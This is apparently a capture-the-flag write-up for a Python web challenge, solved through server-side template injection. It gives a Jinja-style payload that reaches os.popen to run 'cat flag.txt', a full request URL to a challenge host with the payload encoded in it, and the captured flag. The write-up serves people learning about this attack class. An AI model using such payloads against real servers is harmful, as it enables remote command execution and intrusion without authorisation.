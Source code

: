 ## Solve:

- [ ] Reference to SSTI (Server Side Template Injection)
  - The language used to program the application is `python`
  - A good resource is [PaylodAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
  ```python
  {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
  ```
  
  - Final paylload is as follows: <br/>
  http://213.177.18.70:8005/?c={{request.application.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20/flag.txt%27).read()}}

<br/>

## Flag:
`flag{Server_Side_Template_Injection_is_4_cool_kids_only}`
